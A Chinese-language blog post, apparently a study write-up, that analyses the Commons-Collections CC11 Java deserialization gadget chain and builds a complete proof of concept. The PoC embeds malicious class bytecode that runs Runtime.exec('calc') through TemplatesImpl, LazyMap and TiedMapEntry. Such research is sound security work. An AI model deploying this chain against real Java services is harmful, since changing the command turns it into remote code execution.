

CC链后面的几条链子，感觉其实就是前面几条链子的衍生物。两条链子的前半段或后半段拼一起就是一个新的链子，类似这样。而CC11这条链子，听说是目前在利用方面是没有jdk版本限制的，而且影响版本是Conmons-Collections3.1-3.2.1，利用范围也比较大一些。

## 环境问题

```java
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

maven下载源码可以在pom.xml文件所在的目录下执行命令

```java
mvn dependency:resolve -Dclassifier=sources
```

利用链说明

```java
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                ... templates gadgets ...
                                    java.lang.Runtime.exec()
```

其实就是CC6，只不过跟CC6不一样的地方就是CC6使用Transform[]来进行加载payload，当Transform[] 被禁用后CC6就不适用了，这里CC6与CC2结合就是为了在Transform[]被禁用的情况下，依旧可以进行命令执行。

下面进行分析一下，并编写POC

## 利用链分析

首先写后半段，也就是CC6的后半部分，构造TemplatesImpl 链

```java
public class CC11Test {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class cc11 = templates.getClass();
        Field nameField = cc11.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "m0re");

        Field bytecodesField = cc11.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
//        byte[] code = Files.readAllBytes(Paths.get("D://Test//Test.class"));
        byte[] code = {-54,-2,-70,-66,0,0,0,52,0,52,10,0,8,0,36,10,0,37,0,38,8,0,39,10,0,37,0,40,7,0,41,10,0,5,0,42,7,0,43,7,0,44,1,0,6,60,105,110,105,116,62,1,0,3,40,41,86,1,0,4,67,111,100,101,1,0,15,76,105,110,101,78,117,109,98,101,114,84,97,98,108,101,1,0,18,76,111,99,97,108,86,97,114,105,97,98,108,101,84,97,98,108,101,1,0,4,116,104,105,115,1,0,20,76,99,111,109,47,99,111,109,109,111,110,47,99,99,47,84,101,115,116,59,1,0,9,116,114,97,110,115,102,111,114,109,1,0,114,40,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,91,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,41,86,1,0,8,100,111,99,117,109,101,110,116,1,0,45,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,1,0,8,104,97,110,100,108,101,114,115,1,0,66,91,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,1,0,10,69,120,99,101,112,116,105,111,110,115,7,0,45,1,0,-90,40,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,100,116,109,47,68,84,77,65,120,105,115,73,116,101,114,97,116,111,114,59,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,41,86,1,0,8,105,116,101,114,97,116,111,114,1,0,53,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,100,116,109,47,68,84,77,65,120,105,115,73,116,101,114,97,116,111,114,59,1,0,7,104,97,110,100,108,101,114,1,0,65,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,1,0,8,60,99,108,105,110,105,116,62,1,0,1,101,1,0,21,76,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,59,1,0,13,83,116,97,99,107,77,97,112,84,97,98,108,101,7,0,41,1,0,10,83,111,117,114,99,101,70,105,108,101,1,0,9,84,101,115,116,46,106,97,118,97,12,0,9,0,10,7,0,46,12,0,47,0,48,1,0,4,99,97,108,99,12,0,49,0,50,1,0,19,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,12,0,51,0,10,1,0,18,99,111,109,47,99,111,109,109,111,110,47,99,99,47,84,101,115,116,1,0,64,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,114,117,110,116,105,109,101,47,65,98,115,116,114,97,99,116,84,114,97,110,115,108,101,116,1,0,57,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,84,114,97,110,115,108,101,116,69,120,99,101,112,116,105,111,110,1,0,17,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,1,0,10,103,101,116,82,117,110,116,105,109,101,1,0,21,40,41,76,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,59,1,0,4,101,120,101,99,1,0,39,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,76,106,97,118,97,47,108,97,110,103,47,80,114,111,99,101,115,115,59,1,0,15,112,114,105,110,116,83,116,97,99,107,84,114,97,99,101,0,33,0,7,0,8,0,0,0,0,0,4,0,1,0,9,0,10,0,1,0,11,0,0,0,47,0,1,0,1,0,0,0,5,42,-73,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,11,0,13,0,0,0,12,0,1,0,0,0,5,0,14,0,15,0,0,0,1,0,16,0,17,0,2,0,11,0,0,0,63,0,0,0,3,0,0,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,23,0,13,0,0,0,32,0,3,0,0,0,1,0,14,0,15,0,0,0,0,0,1,0,18,0,19,0,1,0,0,0,1,0,20,0,21,0,2,0,22,0,0,0,4,0,1,0,23,0,1,0,16,0,24,0,2,0,11,0,0,0,73,0,0,0,4,0,0,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,28,0,13,0,0,0,42,0,4,0,0,0,1,0,14,0,15,0,0,0,0,0,1,0,18,0,19,0,1,0,0,0,1,0,25,0,26,0,2,0,0,0,1,0,27,0,28,0,3,0,22,0,0,0,4,0,1,0,23,0,8,0,29,0,10,0,1,0,11,0,0,0,97,0,2,0,1,0,0,0,18,-72,0,2,18,3,-74,0,4,87,-89,0,8,75,42,-74,0,6,-79,0,1,0,0,0,9,0,12,0,5,0,3,0,12,0,0,0,22,0,5,0,0,0,14,0,9,0,17,0,12,0,15,0,13,0,16,0,17,0,18,0,13,0,0,0,12,0,1,0,13,0,4,0,30,0,31,0,0,0,32,0,0,0,7,0,2,76,7,0,33,4,0,1,0,34,0,0,0,2,0,35};
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);

        Field tfactoryField = cc11.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
        //注意这里
        templates.newTransformer()
    }
}
```

恶意类的字节码不解释了，跟注释的那一行一样的。

然后就是写出前半部分链子，来替换`templates.newTransformer()`

这里使用LazyMap类里面那条链子，涉及到

```java
java.util.HashMap.put()
    java.util.HashMap.hash()
        org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
        org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
            org.apache.commons.collections.map.LazyMap.get()
```

编写这一块内容，需要考虑的问题是在调用put时，会在序列化时就直接执行payload，不合逻辑



所以要在添加key后先删除掉这个key，再使用反射添加一个key，最后去序列化。之前也都写过一次

```java
    	HashMap<Object, Object> hashMap = new HashMap<>();
        //  修改 lazyMap 使链失效，不触发 Calc
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("m0re"));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "1");

        HashMap<Object, Object> pocMap = new HashMap<>();
        // 会提前调用 hash(key)，导致 Clac
        pocMap.put(tiedMapEntry, "value");
        // 删除 put 时添加的 key
        lazyMap.remove("1");

        // 调用 put 方法后将 lazyMap 修改回正常可用的
        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
		factoryField.set(lazyMap, chainedTransformer);
```

最后整合，首先看中间链接部分，是需要调用`newTransformer`，而这里不能使用Transform数组

这样原本数组的形式是这样的

```java
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates),  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
```

现在不需要了，改写称如下格式

```java
InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});
```

同样，传入的key也要变化

```java
        HashMap<Object, Object> hashMap = new HashMap<>();
        //  修改 lazyMap 使链失效，不触发 Calc
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("m0re"));
        //注意这里的TiedMapEntry传入的key值
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, templates);

        HashMap<Object, Object> pocMap = new HashMap<>();
        // 会提前调用 hash(key)，导致 Clac
        pocMap.put(tiedMapEntry, "value");
        // 删除 put 时添加的 key
        lazyMap.remove(templates);

        // 调用 put 方法后将 lazyMap 修改回正常可用的
        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, invokerTransformer);
```

先说下为什么传入的key值必须是templates

因为如果没有传入templates而是传入了一个字符串test，那么继续向下走，pocMap执行put方法，传进去的就没有恶意类的值。自然删除时也就相当于删除了test这个无关紧要的key，这个时候lazyMap中也没有我们的恶意类的值。

重点在下面，注意这里获取的是lazyMap的class，已经获取不到任何数据有关payload了，也就是恶意类。这个时候去序列化没问题发生，但是再执行反序列化的时候就没有办法执行payload。无法成功实现命令执行。

最后的POC是

```java
package com.wuhen;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC11Test {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class cc11 = templates.getClass();
        Field nameField = cc11.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "m0re");

        Field bytecodesField = cc11.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
//        byte[] code = Files.readAllBytes(Paths.get("D://Test//Test.class"));
        byte[] code = {-54,-2,-70,-66,0,0,0,52,0,52,10,0,8,0,36,10,0,37,0,38,8,0,39,10,0,37,0,40,7,0,41,10,0,5,0,42,7,0,43,7,0,44,1,0,6,60,105,110,105,116,62,1,0,3,40,41,86,1,0,4,67,111,100,101,1,0,15,76,105,110,101,78,117,109,98,101,114,84,97,98,108,101,1,0,18,76,111,99,97,108,86,97,114,105,97,98,108,101,84,97,98,108,101,1,0,4,116,104,105,115,1,0,20,76,99,111,109,47,99,111,109,109,111,110,47,99,99,47,84,101,115,116,59,1,0,9,116,114,97,110,115,102,111,114,109,1,0,114,40,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,91,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,41,86,1,0,8,100,111,99,117,109,101,110,116,1,0,45,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,1,0,8,104,97,110,100,108,101,114,115,1,0,66,91,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,1,0,10,69,120,99,101,112,116,105,111,110,115,7,0,45,1,0,-90,40,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,68,79,77,59,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,100,116,109,47,68,84,77,65,120,105,115,73,116,101,114,97,116,111,114,59,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,41,86,1,0,8,105,116,101,114,97,116,111,114,1,0,53,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,100,116,109,47,68,84,77,65,120,105,115,73,116,101,114,97,116,111,114,59,1,0,7,104,97,110,100,108,101,114,1,0,65,76,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,109,108,47,105,110,116,101,114,110,97,108,47,115,101,114,105,97,108,105,122,101,114,47,83,101,114,105,97,108,105,122,97,116,105,111,110,72,97,110,100,108,101,114,59,1,0,8,60,99,108,105,110,105,116,62,1,0,1,101,1,0,21,76,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,59,1,0,13,83,116,97,99,107,77,97,112,84,97,98,108,101,7,0,41,1,0,10,83,111,117,114,99,101,70,105,108,101,1,0,9,84,101,115,116,46,106,97,118,97,12,0,9,0,10,7,0,46,12,0,47,0,48,1,0,4,99,97,108,99,12,0,49,0,50,1,0,19,106,97,118,97,47,105,111,47,73,79,69,120,99,101,112,116,105,111,110,12,0,51,0,10,1,0,18,99,111,109,47,99,111,109,109,111,110,47,99,99,47,84,101,115,116,1,0,64,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,114,117,110,116,105,109,101,47,65,98,115,116,114,97,99,116,84,114,97,110,115,108,101,116,1,0,57,99,111,109,47,115,117,110,47,111,114,103,47,97,112,97,99,104,101,47,120,97,108,97,110,47,105,110,116,101,114,110,97,108,47,120,115,108,116,99,47,84,114,97,110,115,108,101,116,69,120,99,101,112,116,105,111,110,1,0,17,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,1,0,10,103,101,116,82,117,110,116,105,109,101,1,0,21,40,41,76,106,97,118,97,47,108,97,110,103,47,82,117,110,116,105,109,101,59,1,0,4,101,120,101,99,1,0,39,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,76,106,97,118,97,47,108,97,110,103,47,80,114,111,99,101,115,115,59,1,0,15,112,114,105,110,116,83,116,97,99,107,84,114,97,99,101,0,33,0,7,0,8,0,0,0,0,0,4,0,1,0,9,0,10,0,1,0,11,0,0,0,47,0,1,0,1,0,0,0,5,42,-73,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,11,0,13,0,0,0,12,0,1,0,0,0,5,0,14,0,15,0,0,0,1,0,16,0,17,0,2,0,11,0,0,0,63,0,0,0,3,0,0,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,23,0,13,0,0,0,32,0,3,0,0,0,1,0,14,0,15,0,0,0,0,0,1,0,18,0,19,0,1,0,0,0,1,0,20,0,21,0,2,0,22,0,0,0,4,0,1,0,23,0,1,0,16,0,24,0,2,0,11,0,0,0,73,0,0,0,4,0,0,0,1,-79,0,0,0,2,0,12,0,0,0,6,0,1,0,0,0,28,0,13,0,0,0,42,0,4,0,0,0,1,0,14,0,15,0,0,0,0,0,1,0,18,0,19,0,1,0,0,0,1,0,25,0,26,0,2,0,0,0,1,0,27,0,28,0,3,0,22,0,0,0,4,0,1,0,23,0,8,0,29,0,10,0,1,0,11,0,0,0,97,0,2,0,1,0,0,0,18,-72,0,2,18,3,-74,0,4,87,-89,0,8,75,42,-74,0,6,-79,0,1,0,0,0,9,0,12,0,5,0,3,0,12,0,0,0,22,0,5,0,0,0,14,0,9,0,17,0,12,0,15,0,13,0,16,0,17,0,18,0,13,0,0,0,12,0,1,0,13,0,4,0,30,0,31,0,0,0,32,0,0,0,7,0,2,76,7,0,33,4,0,1,0,34,0,0,0,2,0,35};
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);

        Field tfactoryField = cc11.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
//        Transformer[] transformers = new Transformer[]{
//                new ConstantTransformer(templates),
//                new InvokerTransformer("newTransformer", null, null)
//        };
//        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});

        HashMap<Object, Object> hashMap = new HashMap<>();
        //  修改 lazyMap 使链失效，不触发 Calc
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("m0re"));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, templates);

        HashMap<Object, Object> pocMap = new HashMap<>();
        // 会提前调用 hash(key)，导致 Clac
        pocMap.put(tiedMapEntry, "value");
        // 删除 put 时添加的 key
        lazyMap.remove(templates);

        // 调用 put 方法后将 lazyMap 修改回正常可用的
        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, invokerTransformer);

//        serialize(pocMap);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

结果


其实这个链子只是看掌握程度，没有什么复杂的新知识。